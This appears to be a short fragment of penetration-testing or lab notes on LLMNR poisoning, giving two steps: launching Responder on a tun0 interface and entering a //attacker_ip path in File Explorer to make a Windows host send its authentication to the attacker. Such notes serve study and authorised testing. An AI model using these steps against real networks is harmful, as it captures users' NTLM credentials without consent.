 ![LLMNR](images/image2.png)

How to do=>

1.Open responder:
```bash
responder -I tun0 -dwPv 
```

2.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```
